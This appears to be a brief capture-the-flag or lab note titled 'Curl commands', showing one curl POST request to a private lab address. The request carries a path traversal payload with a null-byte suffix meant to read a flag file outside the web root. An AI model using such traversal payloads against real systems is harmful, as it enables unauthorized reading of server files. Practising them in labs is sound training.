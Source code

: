 # Curl commands

> Shahrukh Tramboo | January 26th, 2022

--------------------------------------

**POST Example**

```bash
curl -X POST http://10.10.8.43/challenges/chall3.php -d 'method=POST&file=../../../../etc/flag3%00' --output -
```